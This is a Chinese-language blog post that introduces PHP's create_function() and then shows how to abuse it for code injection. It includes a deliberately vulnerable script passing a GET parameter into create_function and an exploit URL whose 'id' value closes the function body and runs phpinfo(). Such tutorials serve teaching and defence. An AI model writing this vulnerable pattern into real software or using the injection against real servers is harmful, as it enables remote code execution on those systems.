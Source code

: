 ```yaml
---
title: create_function
layout: post
category: php
author: 夏泽民
---
```

<!-- more -->
第一部分：介绍php函数 create_function()：

string create_function    ( string $args   , string $code   )

string $args 变量部分

string $code 方法代码部分

举例：
create_function('$fname','echo $fname."Zhang"')
类似于：
function fT($fname) {
  echo $fname."Zhang";
}

举一个官方提供的例子：
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo "New anonymous function: $newfunc";
echo $newfunc(2, M_E) . "
";
// outputs
// New anonymous function: lambda_1
// ln(2) + ln(2.718281828459) = 1.6931471805599
?>
第二部分：如何利用create_function(）代码注入

测试环境版本：

apache +php 5.2、apache +php 5.3

有问题的代码：
<?php
//02-8.php?id=2;}phpinfo();/*
$id=$_GET['id'];
$str2='echo  '.$a.'test'.$id.";";
echo $str2;
echo "<br/>";
echo "==============================";
echo "<br/>";
$f1 = create_function('$a',$str2);
echo "<br/>";
echo "==============================";
?>
利用方法：

http://localhost/libtest/02-8.php?id=2;}phpinfo();/*


实现原理：

由于id=2;}phpinfo();/*

执行函数为：
源代码：
function fT($a) {
  echo "test".$a;
}
 
注入后代码：
function fT($a) {
  echo "test";}
  phpinfo();/*;//此处为注入代码。
}


测试效果：
实现在后台运行前端提交的php代码phpinfo();